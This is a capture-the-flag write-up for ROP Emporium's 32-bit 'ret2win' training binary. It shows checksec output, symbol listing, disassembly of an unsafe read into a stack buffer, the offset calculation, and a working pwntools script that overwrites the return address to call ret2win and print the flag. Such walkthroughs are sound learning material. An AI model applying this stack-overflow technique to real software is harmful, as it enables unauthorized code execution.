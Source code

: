 # ret2win - 32 Bit
Program execution:
```
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> <input_here>
```
Run checksec: `checksec ./ret2win32`
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Identify useful symbols: `objdump -t ret2win32`
```
080485ad l     F .text  0000007f              pwnme
0804862c l     F .text  00000029              ret2win
```
`pwnme` and `ret2win` seem interesting, so we'll make a mental note to look out for them when reverse engineering the binary. My disassembler of choice is Binary Ninja.

Disassembling reveals that `main` calls `pwnme`
An analysis of `pwnme` shows a call to `read` that allows the unsafe reading of `0x38` bytes into a buffer at `ebp-0x28`:

```assembly
sub     esp, 0x4
push    0x38 {var_34}
lea     eax, [ebp-0x28 {var_2c}]
push    eax {var_2c} {var_38}
push    0x0
call    read

```
Recalling that the return address is stored at `ebp+0x4`, we can clearly overwrite the return address to control code flow.

Examining `ret2win` shows that it run `system('/bin/cat flag.txt')` so this is the function that we want to return into:

```assembly
0804863a  puts(0x80487f6)  {"Well done! Here's your flag:"}
08048654  return system(0x8048813)  {"/bin/cat flag.txt"}
```
So we want to fill the address space from `ebp-0x28` to `ebp+0x4` (`0x2c bytes`) with filler data, before writing the address of `ret2win` which is the function we want to return into.

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./ret2win32"

p = process(PROG_NAME)
elf = p.elf

if args.ATTACH:
	gdb.attach(p, '''break main''')

p.recvuntil(b'> ')

payload = b'A' * (0x28 + 0x4)
payload += p32(elf.symbols['ret2win'])

p.sendline(payload)

p.interactive()
```

And we get our flag:
```
Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```